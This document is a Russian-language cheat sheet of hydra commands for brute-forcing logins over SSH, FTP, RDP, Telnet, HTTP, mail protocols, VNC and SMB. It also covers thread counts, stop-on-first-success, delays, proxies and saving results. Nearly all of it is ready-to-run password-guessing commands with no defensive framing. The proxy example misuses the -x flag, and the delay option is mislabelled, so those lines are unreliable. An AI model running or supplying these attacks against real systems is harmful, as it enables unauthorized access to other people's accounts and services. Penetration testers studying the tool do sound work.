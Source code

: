 ## Брутфорс для SSH:

```
hydra -l username -P password_list.txt ssh://IP_адрес
```

## Брутфорс для FTP:

```
hydra -l username -P password_list.txt ftp://IP_адрес
```

## Брутфорс для RDP:

```
hydra -l username -P password_list.txt rdp://IP_адрес
```

## Брутфорс для Telnet:

```
hydra -l username -P password_list.txt telnet://IP_адрес
```

## Брутфорс для HTTP Basic Authentication:

```
hydra -l username -P password_list.txt http-get://IP_адрес
```

## Брутфорс для HTTP-форм:

```
hydra -l username -P password_list.txt http-post-form "/login.php:username=^USER^&password=^PASS^:F=incorrect"
```

## Брутфорс для POP3:

```
hydra -l username -P password_list.txt pop3://IP_адрес
```

## Брутфорс для SMTP:

```
hydra -l username -P password_list.txt smtp://IP_адрес
```

## Брутфорс для IMAP:

```
hydra -l username -P password_list.txt imap://IP_адрес
```

## Указание максимального числа потоков (например, 4):

```
hydra -t 4 -l username -P password_list.txt ftp://IP_адрес
```

## Брутфорс с использованием логина из файла:

```
hydra -L user_list.txt -P password_list.txt ssh://IP_адрес
```

## Брутфорс для VNC:

```
hydra -P password_list.txt vnc://IP_адрес
```

## Брутфорс для SMB:

```
hydra -l username -P password_list.txt smb://IP_адрес
```

## Прерывание брутфорс атаки после первой удачной попытки:

```
hydra -l username -P password_list.txt -f ssh://IP_адрес
```

## Указание паузы между попытками (например, 2 секунды):

```
hydra -l username -P password_list.txt -t 4 -w 2 ssh://IP_адрес
```

## Брутфорс с использованием прокси:

```
hydra -l username -P password_list.txt -o результат.txt -s порт -t 4 -x прокси:порт ssh://IP_адрес
```

## Сохранение результатов в файл:

```
hydra -l username -P password_list.txt -o результат.txt ssh://IP_адрес
```
